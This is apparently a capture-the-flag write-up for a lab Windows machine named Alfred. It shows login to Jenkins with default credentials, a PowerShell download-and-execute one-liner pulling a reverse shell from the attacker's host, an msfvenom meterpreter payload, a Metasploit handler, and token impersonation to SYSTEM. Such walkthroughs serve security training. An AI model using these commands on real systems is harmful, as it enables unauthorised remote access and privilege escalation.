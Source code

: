 # Alfred

##### Difficulty: [ Easy ]

**Tags:** `Windows`,  `nmap`,  `Jenkins`,  `Powershell`,  `reverse shell`,  `msfvenom`,  `meterpreter`,  `token impersonation`

---

##### Written: 26/09/2021

##### IP Address: 10.10.113.167

---

Let's start off with a basic **nmap** scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the **-Pn** tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are **3** ports currently open on our target machine:

* Port **80**: HTTP
* Port **3389**
* Port **8080**: HTTP

<br>

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

After looking through the website and running a **Gobuster** scan, I was unable to find anything of interest. Let's move on to the web server on port 8080.

<img style="float: left;" src="screenshots/screenshot3.png">

Nice! We found a login page to a **Jenkins server**. 

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

<br>

Let's go ahead and try using a common default username and password, **admin:admin**.

<img style="float: left;" src="screenshots/screenshot4.png">

Luckily for us, those credentials actually worked. We are able to log into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named **'project'**, then **'Configure'** on the left-hand side, then move down to the **'Build'** section.

<img style="float: left;" src="screenshots/screenshot5.png">

In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be ```whoami```.

<img style="float: left;" src="screenshots/screenshot6.png">

Now, we simply click on **'Build Now'** on the project page, then click on the corresponding build in the **'Build History'** section, then click on the **'Console Output'** to see the results of our command.

<img style="float: left;" src="screenshots/screenshot7.png">

It works! This proves that we can run arbitrary commands on the server. Thus, we can use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a **Windows** machine, we will be using a Powershell reverse shell script that is part of the **Nishang** framework (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

<br>

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can download the script onto our target.

Next, we input the following command into the **'Build'** section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using ```Invoke-PowerShellTcp```.

<img style="float: left;" src="screenshots/screenshot8.png">

Finally, we make sure to have a **netcat** listener up and ready to catch the connection.

<br>

With everything set up, let's go ahead and build the project!

<img style="float: left;" src="screenshots/screenshot9.png">

And we're in :smile:

<img style="float: left;" src="screenshots/screenshot10.png">

**We can find the user flag from user.txt located in the Desktop of the user Bruce.**

---

To make the privilege escalation process easier, let's switch to a **Meterpreter shell** using **Metasploit**.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using **Msfvenom**.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```

<img style="float: left;" src="screenshots/screenshot11.png">

<br>

With our payload created, we can upload it onto the target machine using the same command method as before.

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"
```

<img style="float: left;" src="screenshots/screenshot12.png">

For good measure, I'll also add in a ```dir``` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

<br> 

<img style="float: left;" src="screenshots/screenshot13.png">

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine.

Now, we just have to execute it using:

```
.\shell.exe
```

<img style="float: left;" src="screenshots/screenshot14.png">

<br>

Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the **/multi/handler** module.

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With the TCP listener up and running in Metasploit, we can go ahead and build the project.

<img style="float: left;" src="screenshots/screenshot15.png">

We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a Meterpreter shell, we can use **token impersonation** to gain system access.

*More information about Tokens can be found in the room description.*

<br>

Let's first spawn a shell that we can use. This can be done using the ```shell``` command in Meterpreter.

Next, we use the ```whoami /priv``` command to view all privileges on this account. The results are as follows:

<img style="float: left;" src="screenshots/screenshot16.png">

As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit this vulnerability by using the **incognito** module in Metasploit. To load this, we first exit out of the shell. Then we use the command ```load incognito```. 

<img style="float: left;" src="screenshots/screenshot17.png">

<img style="float: left;" src="screenshots/screenshot18.png">

Loading this module gives us more commands that we can run on our target machine. We will be using the ```list_tokens``` command.

```
list_tokens -g
```

*The -g tag lists tokens by unique groupname*

**Results:**

<img style="float: left;" src="screenshots/screenshot19.png">

From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the ```impersonate_token``` command to impersonate the root user.

```
impersonate_token "BUILTIN\Administrators"
```

**Results:**

<img style="float: left;" src="screenshots/screenshot20.png">

With that, we have successfully impersonated the **root user (NT AUTHORITY\SYSTEM)**.

<br>

However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct **NT AUTHORITY\SYSTEM** permissions. 

According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the **PID** of the process. We can use the ```ps``` command.

<img style="float: left;" src="screenshots/screenshot21.png">

The PID of services.exe is **668**. 

<br>

Now we can migrate to the process using the following command:

```
migrate 668
```

<img style="float: left;" src="screenshots/screenshot22.png">

After the migration is complete, we can spawn a higher-privileged shell using the ```shell``` command again. We can then read the **root.txt** file located in **C:\Windows\System32\config** using the ```TYPE``` command.

<img style="float: left;" src="screenshots/screenshot23.png">

**With that, we can obtain the root flag and complete the room.**

